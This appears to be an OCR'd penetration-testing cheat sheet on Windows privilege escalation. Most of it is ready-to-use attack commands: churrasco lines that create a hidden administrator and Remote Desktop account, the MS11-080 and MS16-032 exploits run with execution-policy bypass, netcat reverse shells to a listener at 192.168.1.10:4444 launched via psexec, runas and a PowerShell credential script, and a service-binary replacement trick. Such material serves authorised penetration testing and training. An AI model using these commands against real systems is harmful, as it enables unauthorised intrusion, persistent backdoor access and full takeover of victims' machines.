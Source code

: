 c:\\Inetpub>churrasco -d "net user /add <username> <password>"\
c:\\Inetpub>churrasco -d "net localgroup administrators <username> /add"\
c:\\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

- Windows MS11-080 - [http://www.exploit-db.com/exploits/18176/](http://www.exploit-db.com/exploits/18176/)\
python pyinstaller.py --onefile ms11-080.py\
mx11-080.exe -O XP

- Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt. Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:\
MS16-032 [https://www.exploit-db.com/exploits/39719/](https://www.exploit-db.com/exploits/39719/)\
powershell -ExecutionPolicy ByPass -command "& { . C:\\Users\\Public\\Invoke-MS16-032.ps1; Invoke-MS16-032 }"

- Powershell Priv Escalation Tools [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) 

- Windows Run As - Switching users in linux is trival with the SU command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.

    - Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).\
C:\\>psexec64 \\\\COMPUTERNAME -u Test -p test -h "c:\\users\\public\\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"

PsExec v2.2 - Execute processes remotely\
Copyright (C) 2001-2016 Mark Russinovich\
Sysinternals - [www.sysinternals.com](http://www.sysinternals.com/) 

- Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:\
C:\\>C:\\Windows\\System32\\runas.exe /env /noprofile /user:Test "c:\\users\\public\\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"\
Enter the password for Test:\
Attempting to start nc.exe as user "COMPUTERNAME\\Test" ...

- PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.\
$username = '<username here>'\
$password = '<password here>'\
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force\
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword\
Start-Process -FilePath C:\\Users\\Public\\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\\Users\\Public\
Next run this script using powershell.exe:\
powershell -ExecutionPolicy ByPass -command "& { . C:\\Users\\public\\PowerShellRunAs.ps1; }"

- Windows Service Configuration Viewer - Check for misconfigurations in services that can lead to privilege escalation. You can replace the executable with your own and have windows execute whatever code you want as the privileged user. icacls scsiaccess.exe\
scsiaccess.exe\
NT AUTHORITY\\SYSTEM:(I)(F)\
BUILTIN\\Administrators:(I)(F)\
BUILTIN\\Users:(I)(RX)\
APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)\
Everyone:(I)(F)
